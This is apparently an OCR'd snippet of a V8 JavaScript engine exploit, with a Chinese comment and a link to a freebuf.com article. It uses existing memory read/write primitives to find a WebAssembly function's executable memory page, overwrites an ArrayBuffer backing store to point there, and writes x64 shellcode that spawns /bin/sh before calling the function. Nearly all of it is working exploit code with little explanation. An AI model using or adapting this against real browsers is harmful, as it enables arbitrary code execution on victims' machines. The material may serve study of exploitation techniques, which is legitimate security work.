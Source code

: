 ```assembly

var f_addr = addressOf(f);
console.log("[*] leak wasm func addr: 0x" + hex(f_addr));


var shared_info_addr = read64(f_addr + 0x18n) - 0x1n;
var wasm_exported_func_data_addr = read64(shared_info_addr + 0x8n) - 0x1n;
var wasm_instance_addr = read64(wasm_exported_func_data_addr + 0x10n) - 0x1n;
var rwx_page_addr = read64(wasm_instance_addr + 0x88n);

console.log("[*] leak rwx_page_addr: 0x" + hex(rwx_page_addr));


/* /bin/sh for linux x64
 char shellcode[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f \x2f\x62\x69\x6e\x2f\x73\x68\x53 \x54\x5f\x52\x57\x54\x5e\x0f\x05";
*/
var shellcode = [
    0x2fbb485299583b6an,
    0x5368732f6e69622fn,
    0x050f5e5457525f54n
];

var data_buf = new ArrayBuffer(24);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;

write64(buf_backing_store_addr, rwx_page_addr);  //这里写入之前泄露的rwx_page_addr地址
data_view.setFloat64(0, i2f(shellcode[0]), true);
data_view.setFloat64(8, i2f(shellcode[1]), true);
data_view.setFloat64(16, i2f(shellcode[2]), true);

f();
// %SystemBreak();
```

参考：https://www.freebuf.com/vuls/203721.html